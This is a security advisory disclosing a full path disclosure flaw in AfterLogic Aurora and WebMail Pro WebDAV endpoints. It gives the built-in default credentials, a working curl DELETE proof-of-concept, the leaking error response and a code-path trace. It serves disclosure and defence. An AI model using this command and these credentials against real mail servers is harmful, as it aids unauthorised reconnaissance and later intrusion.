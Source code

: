 # **Report Title:** Public Full Path Disclosure on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Medium

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:** Full Path Disclosure

## **Resources :**

* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal

## **Authors :**

* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%40halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary :**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP DELETE request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to obtain web root path.

## **To Reproduce :**

Get the web root path with the following curl command

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

## **Response :**

``` xml
<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\NotFound</s:exception>
  <s:message>File with name /var/www/html/www/webmailpro.dev/data/files/private/caldav_public_user@localhost/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021 could not be located</s:message>
</d:error>
```

In this scenario : **/var/www/html/www/webmailpro.dev** is the web root path, this data is especially becomes valuable for the file upload vulnerabilities.

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpDelete
* \libraries\Sabre\DAV\Tree.php -> delete
* \libraries\Sabre\DAV\ObjectTree.php -> getNodeForPath
* \libraries\Sabre\DAV\FS\Directory.php -> getChild

Get web root path vulnerability starts on step 7 / getChild, at the \Sabre\DAV\Exception\NotFound('File with name ' . $path . ' could not be located') line **$path** variable contains web root path

With the above problem any loggable user can obtain web root path, with the caldav_public_user@localhost user, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
